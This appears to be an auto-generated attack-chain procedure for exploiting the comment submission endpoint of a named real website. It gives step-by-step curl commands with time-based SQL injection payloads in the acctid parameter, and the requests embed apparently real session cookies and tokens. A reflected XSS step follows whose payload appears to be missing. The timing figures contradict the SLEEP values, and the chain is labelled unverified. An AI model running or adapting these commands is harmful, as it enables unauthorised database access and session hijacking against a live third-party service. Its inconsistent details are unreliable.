

# Time-Based SQL Injection and Reflected XSS in Comment Submission Endpoint

Multi-stage attack chain demonstrating exploitation of vulnerabilities in the comment submission process on intensedebate.com, leading to database access via blind SQL injection and arbitrary JavaScript execution via reflected XSS.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~20 seconds |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools or proxy like Burp Suite for request manipulation
- curl or similar for HTTP requests

### Target Environment

- Web platform with PHP backend and MySQL database
- Access to intensedebate.com comment submission functionality
- No authentication required for anonymous comments

### Initial Access Requirements

- Public network access to www.intensedebate.com
- Ability to submit comments via the site's interface or API
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Identify Comment Submission Endpoint
procedure: [[procedures/Identify-Comment-Submission-Endpoint]]

**Objective**: Locate the endpoint used for comment submission to identify injectable parameters.

**Instructions**: Observe network traffic during comment submission in a browser. Look for GET requests to /js/commentAction/ containing a JSON payload with parameters like acctid, blogpostid, and src.

**Expected Output**: Identification of the endpoint and payload structure.

**Success Indicators**:
- Endpoint URL confirmed: /js/commentAction/
- JSON parameters visible in request

### Step 2: Exploit Time-Based SQL Injection in Acctid
procedure: [[procedures/Exploit-Time-Based-SQL-Injection-in-Acctid]]

**Objective**: Inject SQL payload into the acctid parameter to induce database delays, confirming blind SQLi.

**Instructions**: Modify the JSON payload in the GET request data parameter. Set acctid to a payload like "251219 AND SLEEP(15)#". Use [[commands/time-based-sqli-sleep-15]] to send the request:

```bash
curl -X GET "https://www.intensedebate.com/js/commentAction/?data={\"request_type\":\"0\", \"params\": {\"firstCall\":true, \"src\":0, \"blogpostid\":504704482, \"acctid\":\"251219 AND SLEEP(15)#\", \"parentid\":\"0\", \"depth\":\"0\", \"type\":\"1\", \"token\":\"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh\", \"anonName\":\"\", \"anonEmail\":\"X\", \"anonURL\":\"\", \"userid\":\"26745290\", \"token\":\"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh\", \"mblid\":\"1\", \"tweetThis\":\"F\", \"subscribeThis\":\"1\", \"comment\":\"w\"}}" -H "Host: www.intensedebate.com" -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0" -H "Accept: */*" -H "Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3" -H "Accept-Encoding: gzip, deflate" -H "Connection: close" -H "Referer: https://www.intensedebate.com/commentPopup.php?acct=0de44735e7089c61f14c17373373c235&postid=473573&posttitle=Jimmy%20Butler%20de%20retour,%20les%20Wolves" -H "Cookie: login_pref=IDC; idcomments_userid=26745290; idcomments_token=6426c387ebed7ec573f03d218e0d4c2a%7C1607620848; country_code=FR; IDNewThreadComment=w"
```

For baseline, use [[commands/time-based-sqli-sleep-7]]:

```bash
curl -X GET "https://www.intensedebate.com/js/commentAction/?data={\"request_type\":\"0\", \"params\": {\"firstCall\":true, \"src\":0, \"blogpostid\":504704482, \"acctid\":\"251219 AND SLEEP(7)#\", \"parentid\":\"0\", \"depth\":\"0\", \"type\":\"1\", \"token\":\"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh\", \"anonName\":\"\", \"anonEmail\":\"X\", \"anonURL\":\"\", \"userid\":\"26745290\", \"token\":\"7D0GVbxG10j8hndedjhegHsnfDrcv0Yh\", \"mblid\":\"1\", \"tweetThis\":\"F\", \"subscribeThis\":\"1\", \"comment\":\"w\"}}" -H "Host: www.intensedebate.com" -H "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:82.0) Gecko/20100101 Firefox/82.0" -H "Accept: */*" -H "Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3" -H "Accept-Encoding: gzip, deflate" -H "Connection: close" -H "Referer: https://www.intensedebate.com/commentPopup.php?acct=0de44735e7089c61f14c17373373c235&postid=473573&posttitle=Jimmy%20Butler%20de%20retour,%20les%20Wolves" -H "Cookie: login_pref=IDC; idcomments_userid=26745290; idcomments_token=6426c387ebed7ec573f03d218e0d4c2a%7C1607620848; country_code=FR; IDNewThreadComment=w"
```

**Expected Output**: Delayed response for SLEEP(15) around 4+ seconds.

**Success Indicators**:
- Response time increase correlating to SLEEP value
- No errors, but observable delay

### Step 3: Confirm SQL Injection with Response Times
procedure: [[procedures/Confirm-SQL-Injection-with-Response-Times]]

**Objective**: Validate the SQLi by comparing response times between normal and injected requests.

**Instructions**: Time the requests using tools like curl with --write-out for timing. Compare SLEEP(7) (~660ms) vs SLEEP(15) (~4140ms).

**Expected Output**: Significant delay difference confirming injection.

**Success Indicators**:
- Delay matches SLEEP duration
- Consistent across multiple runs

### Step 4: Exploit Reflected XSS in Src Parameter
procedure: [[procedures/Exploit-Reflected-XSS-in-Src-Parameter]]

**Objective**: Inject XSS payload into src to execute JavaScript in the victim's browser.

**Instructions**: Modify src in the JSON payload to "". Use [[commands/reflected-xss-src-payload]]:

```bash
curl -X GET "https://www.intensedebate.com/js/commentAction/?data={\"request_type\":\"0\", \"params\": {\"firstCall\":true, \"src\":\"0\", \"blogpostid\":574575046, \"acctid\":419731, \"parentid\":0, \"depth\":0, \"type\":0, \"token\":\"\", \"anonName\":\"yyy\", \"anonEmail\":\"yyy@gmail.com\", \"anonURL\":\"\", \"userid\":undefined, \"token\":\"undefined\", \"mblid\":\"\", \"tweetThis\":\"F\", \"subscribeThis\":\"-1\", \"comment\":\"test\"}}"
```

Load the URL in a browser to trigger.

**Expected Output**: Alert popup with 'XSS'.

**Success Indicators**:
- JavaScript alert executes
- Payload reflected without sanitization

## Attack Chain Summary

### Key Achievements

1. Confirmed blind time-based SQLi allowing potential full DB access
2. Demonstrated reflected XSS for client-side script execution
3. Exposed risks to user data and session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

---

*Last updated: 2024-10-01T00:00:00Z*
